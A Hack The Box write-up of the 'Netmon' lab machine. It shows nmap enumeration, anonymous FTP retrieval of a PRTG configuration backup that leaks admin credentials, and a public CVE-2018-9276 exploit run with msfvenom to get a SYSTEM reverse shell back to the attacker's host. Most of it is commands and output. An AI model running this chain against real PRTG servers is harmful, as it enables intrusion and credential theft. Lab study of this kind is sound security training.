


hackthebox Netmon
Released: 2nd March 2019 / Pwned: May 14th 2019 - [+] Solved whilst Active

This will require a little ‘sequential’ thinking on your part - think of the dumb things a user might do.
For root I think I found an easy option considering this box has been out for so long.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/netmon2# mkdir nmap
root@kali:~/ctf/netmon2# nmap -sC -sV -O -oN nmap/intial.txt 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-12 11:17 BST
Nmap scan report for 10.10.10.152
Host is up (0.054s latency).
Not shown: 995 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=5/12%OT=21%CT=1%CU=38394%PV=Y%DS=2%DC=I%G=Y%TM=5CD7F2F
OS:0%P=i686-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=A)
OS:OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54D
OS:NW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
OS:ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=
OS:80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=
OS:A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
OS:Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=80%CD=Z)
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
| smb-security-mode:
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2019-05-12 11:18:15
|_ start_date: 2019-05-12 10:56:22
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.91 seconds
21/ftp allows for anonymous login so should be the first thing to look at.
80/http looks like it's running PRTG Network Monitor, and visiting the homepage you'll see a login screen.
139 and 445 are samba, which become useful later.

2) 21/ftp
Anonymous login is allowed you don't need to input a password (or type anything you want).
root@kali:~/ctf/netmon2# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19 12:18AM 1024 .rnd
02-25-19 10:15PM <DIR> inetpub
07-16-16 09:18AM <DIR> PerfLogs
02-25-19 10:56PM <DIR> Program Files
02-03-19 12:28AM <DIR> Program Files (x86)
02-03-19 08:08AM <DIR> Users
02-25-19 11:49PM <DIR> Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19 11:44PM <DIR> Administrator
02-25-19 11:58PM <DIR> Public
226 Transfer complete.
You can grab the user flag straight away:
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19 08:08AM <DIR> Contacts
02-03-19 08:08AM <DIR> Documents
02-03-19 08:08AM <DIR> Downloads
02-03-19 08:08AM <DIR> Favorites
02-03-19 08:08AM <DIR> Links
02-03-19 08:08AM <DIR> Music
02-03-19 08:08AM <DIR> Pictures
02-03-19 08:08AM <DIR> Saved Games
02-03-19 08:08AM <DIR> Searches
05-14-19 06:13AM 82 tester.txt
02-03-19 12:35AM 33 user.txt
02-25-19 11:06PM <DIR> Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.05 secs (0.6672 kB/s)
Now head back to C:\Users list everything (including hidden files) to see what's there:
ftp> ls -alh
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19 11:44PM <DIR> Administrator
07-16-16 09:28AM <DIR> All Users
02-03-19 08:05AM <DIR> Default
07-16-16 09:28AM <DIR> Default User
07-16-16 09:16AM 174 desktop.ini
02-03-19 12:35AM <DIR> Public
226 Transfer complete.
ftp> cd "All Users"
250 CWD command successful.
ftp> ls -alh
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19 08:05AM <DIR> Application Data
02-03-19 08:05AM <DIR> Desktop
02-03-19 08:05AM <DIR> Documents
02-03-19 12:15AM <DIR> Licenses
11-20-16 10:36PM <DIR> Microsoft
02-03-19 12:18AM <DIR> Paessler
02-03-19 08:05AM <DIR> regid.1991-06.com.microsoft
07-16-16 09:18AM <DIR> SoftwareDistribution
02-03-19 08:05AM <DIR> Start Menu
02-03-19 12:15AM <DIR> TEMP
02-03-19 08:05AM <DIR> Templates
11-20-16 10:19PM <DIR> USOPrivate
11-20-16 10:19PM <DIR> USOShared
02-25-19 10:56PM <DIR> VMware
226 Transfer complete.
Paessler is the company that makes PRTG Network Monitor...
ftp> cd Paessler
250 CWD command successful.
ftp> ls -alh
200 PORT command successful.
125 Data connection already open; Transfer starting.
05-13-19 05:43PM <DIR> PRTG Network Monitor
226 Transfer complete.
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19 12:40AM <DIR> Configuration Auto-Backups
05-13-19 05:42PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
05-13-19 05:42PM <DIR> Logs (Web Server)
02-25-19 08:01PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
05-13-19 05:43PM 1647604 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
226 Transfer complete.
Googling for “PRTG network monitor password" gave me this link - https://old.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ - which provided the information that:
- encrypted passowrds are stored in "PRTG Configuration.dat" file
- backup copies of this file, in PRTG versions 17.4.35.3326 and later, very likely contain unencrypted passwords
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 0.95 secs (1.1527 MB/s)
ftp> exit
Now have a look through the file. I like nano:
root@kali:~/ctf/netmon/21ftp# nano “PRTG Configuration.old.bak"
ctrl+W → search “user" and you'll find:
prtgadmin
PrTg@dmin2018
Trying these credentials at the http login page gives us nothing.
Consider the name of the file - “old".
This honestly stumped me a little. I'd actually already considered the answer, but thought that there was no way that could possibly be it so I moved on and tried other things. What made me reconsider was the timestamp at the top of the file:
<geostat day="02-02-2019">
<geolpV2>
1
</geolpV2>
</geostat>
<geostat day="03-02-2019"/>
It's dated 2019.
We're looking at an old backup. The current password has 2018 in it...
prtgadmin
PrTg@dmin2019
Don't hate yourself, hate the box.
3) RCE
To be honest it seems like google will give you the answer to most of this box, it just requires a fair bit of googling.
Googling for a prtg network monitor exploit produced a remote code execution vulnerability, which wouldn't work out of the box for me.
Googling about the exploit returned this - https://github.com/wildkindcc/CVE-2018-9276.git - which looked promising. It's a rewrite of the original exploit that the author wrote to improve consistency.
root@kali:~/ctf/netmon/exploit# git clone https://github.com/wildkindcc/CVE-2018-9276.git
Cloning into 'CVE-2018-9276'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 7 (delta 0), reused 4 (delta 0), pack-reused 0
Unpacking objects: 100% (7/7), done.
root@kali:~/ctf/netmon/exploit# ls
CVE-2018-9276
root@kali:~/ctf/netmon/exploit# cd CVE-2018-9276/
root@kali:~/ctf/netmon/exploit/CVE-2018-9276# ls
CVE-2018-9276.py README.md
root@kali:~/ctf/netmon/exploit/CVE-2018-9276# python CVE-2018-9276.py -h
usage: CVE-2018-9276.py [-h] -i HOST -p PORT --lhost LHOST --lport LPORT
[--user USER] [--password PASSWORD] [--https]
CVE-2018-9276
optional arguments:
-h, --help show this help message and exit
-i HOST, --host HOST IP address / Hostname of vulnerable PRTG server
-p PORT, --port PORT Port number
--lhost LHOST LHOST for MSFVENOM
--lport LPORT LPORT for MSFVENOM
--user USER Administrator Username
--password PASSWORD Administrator Password
--https Negotiate SSL connection to the server (Requires
socket to be compiled with SSL support)
I modified the exploit to include SMB2 support as (I think) nmap said it was running - just uncomment this line:
#server.setSMB2Support(True)
It worked! I had to try the exploit a few times.
root@kali:~/ctf/netmon/exploit/CVE-2018-9276# cp CVE-2018-9276.py wildkind.py
root@kali:~/ctf/netmon/exploit/CVE-2018-9276# nano wildkind.py
root@kali:~/ctf/netmon/exploit/CVE-2018-9276# python wildkind.py -i 10.10.10.152 -p 80 --lhost 10.10.13.83 --lport 4441 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!
[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2030]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2030] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.13.83 LPORT=4441 OUTPUT=/tmp/xsleeuxc.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Hosting payload at [\\10.10.13.83\BYBUEMCX]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2031]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2031] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.
[+] Listening on [10.10.13.83:4441 for the reverse shell!]
listening on [any] 4441 ...
[*] Incoming connection (10.10.10.152,54603)
[*] SMB2_NEGOTIATE: SMB2 not supported, fallbacking
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User \NETMON authenticated successfully
[*] :::00::4141414141414141
connect to [10.10.13.83] from (UNKNOWN) [10.10.10.152] 54608
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>systeminfo
systeminfo
Host Name: NETMON
OS Name: Microsoft Windows Server 2016 Standard
OS Version: 10.0.14393 N/A Build 14393
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 00376-30821-30176-AA362
Original Install Date: 2/3/2019, 7:05:45 AM
System Boot Time: 5/14/2019, 4:34:05 AM
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 1 Processor(s) Installed.
[01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 4/5/2016
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory: 4,096 MB
Available Physical Memory: 3,287 MB
Virtual Memory: Max Size: 4,800 MB
Virtual Memory: Available: 4,041 MB
Virtual Memory: In Use: 759 MB
Page File Location(s): C:\pagefile.sys
Domain: WORKGROUP
Logon Server: N/A
Hotfix(s): 2 Hotfix(s) Installed.
[01]: KB3199986
[02]: KB3200970
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) 82574L Gigabit Network Connection
Connection Name: Ethernet0
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.152
[02]: fe80::1d0a:72d9:7aae:8309
[03]: dead:beef::1d0a:72d9:7aae:8309
Hyper-V Requirements: A hypervisor has been detected. Features required for Hyper-V will not be displayed.
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>cd C:\
cd C:\
C:\>dir
dir
Volume in drive C has no label.
Volume Serial Number is 684B-9CE8
Directory of C:\
02/03/2019 12:18 AM 1,024 .rnd
02/25/2019 10:15 PM <DIR> inetpub
07/16/2016 09:18 AM <DIR> PerfLogs
02/25/2019 10:56 PM <DIR> Program Files
02/03/2019 12:28 AM <DIR> Program Files (x86)
02/03/2019 08:08 AM <DIR> Users
05/14/2019 04:41 AM <DIR> Windows
1 File(s) 1,024 bytes
6 Dir(s) 12,025,307,136 bytes free
C:\>cd Users\Administrator
cd Users
C:\Users\Administrator>dir
dir
Volume in drive C has no label.
Volume Serial Number is 684B-9CE8
Directory of C:\Users\Administrator
02/25/2019 11:58 PM <DIR> .
02/25/2019 11:58 PM <DIR> ..
02/03/2019 08:08 AM <DIR> Contacts
02/03/2019 12:35 AM <DIR> Desktop
02/03/2019 08:08 AM <DIR> Documents
02/03/2019 08:08 AM <DIR> Downloads
02/03/2019 08:08 AM <DIR> Favorites
02/03/2019 08:08 AM <DIR> Links
02/03/2019 08:08 AM <DIR> Music
02/03/2019 08:08 AM <DIR> Pictures
02/03/2019 08:08 AM <DIR> Saved Games
02/03/2019 08:08 AM <DIR> Searches
02/25/2019 11:06 PM <DIR> Videos
0 File(s) 0 bytes
13 Dir(s) 12,025,307,136 bytes free
C:\Users\Administrator>cd Desktop
cd Desktop
C:\Users\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 684B-9CE8
Directory of C:\Users\Administrator\Desktop
02/03/2019 12:35 AM <DIR> .
02/03/2019 12:35 AM <DIR> ..
02/03/2019 12:35 AM 33 root.txt
1 File(s) 33 bytes
2 Dir(s) 12,025,303,040 bytes free
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<redacted>
In all honesty I think I found an easy root method for the machine. Netmon was released on the 3rd March and the inital commit of the exploit I used was 31st March, so I think someone else had already done the hard work for me.